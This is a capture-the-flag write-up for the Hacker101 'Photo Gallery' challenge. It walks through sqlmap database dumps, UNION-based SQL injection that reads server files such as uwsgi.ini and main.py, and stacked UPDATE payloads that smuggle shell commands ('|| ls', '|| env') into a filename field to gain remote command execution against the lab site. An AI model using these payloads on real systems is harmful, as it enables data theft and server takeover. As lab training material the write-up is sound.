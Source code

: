 <h2>Target: Photo Gallery</h2>

<b>Flag 1:</b><br>
Visiting the site shows: 
 
![image](https://user-images.githubusercontent.com/93153300/206507963-0c52d371-dc2f-490d-829e-da6ccd62991c.png)

Checking the source code shows:
 
![image](https://user-images.githubusercontent.com/93153300/206508040-2009af93-bdf6-4336-b0da-cdb0f84aaca3.png)
 
Visit the ‘fetch?id=3’ directory mentioned in the source code.  The page shows an internal server error: 
 
![image](https://user-images.githubusercontent.com/93153300/206508086-299bdae0-4392-4429-93ef-0220bf88d061.png)
 
Test this for sql injection using sqlmap: sqlmap -u "https://1592996c6185f1bb369a07276ec9e331.ctf.hacker101.com/fetch?id=2" --batch -p id

Sqlmap found that it’s vulnerable to boolean-based blind and time-based blind sql injection.  Test this further with sqlmap to find the 1st flag: sqlmap -u "https://1592996c6185f1bb369a07276ec9e331.ctf.hacker101.com/fetch?id=2" --batch -p id -D level5 –tables -T photos --dump
__________________________________________________________________________
<b>Flag 2:</b><br>
Check if we can use the sql injection to read files.  Sqlmap showed there is a file called ‘files/adorable.jpg’.  As a proof of concept let’s try to read this file.  Use the sql injection payload of: https://3a3f7491bd9535647716ab87d25fc400.ctf.hacker101.com/fetch?id=0 union select 'files/adorable.jpg'--
 
![image](https://user-images.githubusercontent.com/93153300/206511702-e2f64f82-8414-4bfb-9649-e9b87ebf634a.png)

The output shows we can read files with the sqli.  HackerOne gives a hint as to which file we should try to read.  The hint says: ‘This application runs on the uwsgi-nginx-flask-docker image.’  Google search for ‘uwsgi nginx’.  We find a github page: https://github.com/tiangolo/uwsgi-nginx-flask-docker. <br>
On the github page we find that uwsgi contains a default file named uwsgi.ini: 
 
![image](https://user-images.githubusercontent.com/93153300/206508151-68a88437-3d59-4906-8928-ad77373cfcfe.png)

The github page shows the contents of the file uwsgi.ini.  Check if we can read this file using the sql injection.  Using burp suite, capture the request for https://8e62cd1d8cac0e9921e839ec01c74382.ctf.hacker101.com/fetch?id=1. <br>
Change the id=1 to id=0 union select ‘uwsgi.ini’--.  Make sure to url encode the payload:
 
![image](https://user-images.githubusercontent.com/93153300/206508218-36c9347f-3a08-494d-8d52-d3f39ced17e9.png)

It worked, we find the file and contents to the file shown on the github page.  Using the sql injection, read the main.py file.  Change the id=1 to id=0 union select ‘main.py’.  Make sure to url encode the payload:
 
![image](https://user-images.githubusercontent.com/93153300/206508289-05a17d08-6985-4892-a90e-2fc572e2f234.png)
 
Burp suite’s response contains the 2nd flag.
____________________________________________________________________________
<b>Flag 3:</b><br>
Going back to our sqlmap dump: sqlmap -u "https://8e62cd1d8cac0e9921e839ec01c74382.ctf.hacker101.com/fetch?id=2" --batch -p id --dbs -D level5 --tables -T photos –dump
 
![image](https://user-images.githubusercontent.com/93153300/206508342-3770e8a5-6345-43ee-a8cc-8df222c9b6fb.png)
 
Use burp suite to capture the requet of https://3da97857dc6c25896a7649b006ab3281.ctf.hacker101.com/fetch?id=2 <br>
Send the captured request in burp suite to ‘Repeater’.  Try to modify the image title name using the sqli payload of: id=2;UPDATE photos SET title='blober' WHERE id=3;COMMIT;-- <br>
Make sure to url encode the payload.  
 
![image](https://user-images.githubusercontent.com/93153300/206508383-e9db47bf-af2a-4424-9382-ef3823d6f5d8.png)

Check if the payload worked by visiting the home page:
 
![image](https://user-images.githubusercontent.com/93153300/206508438-8a705391-76a8-42f9-ad67-2e3e53232086.png)

It worked, we see that the title of the third image changed from ‘Invisible’ to the name we gave of ‘blober’.  We will use this to get remote command execution on the target.  

Step 1: Run the following sqli payload to insert the command 'ls': id=2;UPDATE photos SET filename='* || ls > blober' WHERE id=3;COMMIT;-- <br>
Step 2: Visit the main page https://3da97857dc6c25896a7649b006ab3281.ctf.hacker101.com to run the 'ls' command: 
 
![image](https://user-images.githubusercontent.com/93153300/206508495-e388c22e-0e49-4470-b6b8-fe59e820d5b9.png)

We see at the bottom of the page that the ‘Space used’ changed from zero to 196k.  <br>
Step 3: View the output of the command by using the sqli payload of: https://3da97857dc6c25896a7649b006ab3281.ctf.hacker101.com/fetch?id=0 union select 'blober'-- 
 
![image](https://user-images.githubusercontent.com/93153300/206508554-260cce70-c2f8-40d4-8fd7-3ef238c72a16.png)

The output on the page shows a list of the files.  So we see that the command ‘ls’ worked.  <br>
Step 4: Instead of running the command ‘ls’, run the command ‘env’.  Use the sqli payload of: id=2;UPDATE photos SET filename='* || env > blober' WHERE id=3;COMMIT;-- <br>
Visit the page https://3da97857dc6c25896a7649b006ab3281.ctf.hacker101.com to run the command.  Finally, view the output of the command by using the sqli payload of: https://3da97857dc6c25896a7649b006ab3281.ctf.hacker101.com/fetch?id=0 union select 'blober'--
 
![image](https://user-images.githubusercontent.com/93153300/206508603-f964ae97-4589-4fdb-b88a-cc0b18165900.png)

The output shows the flags.  


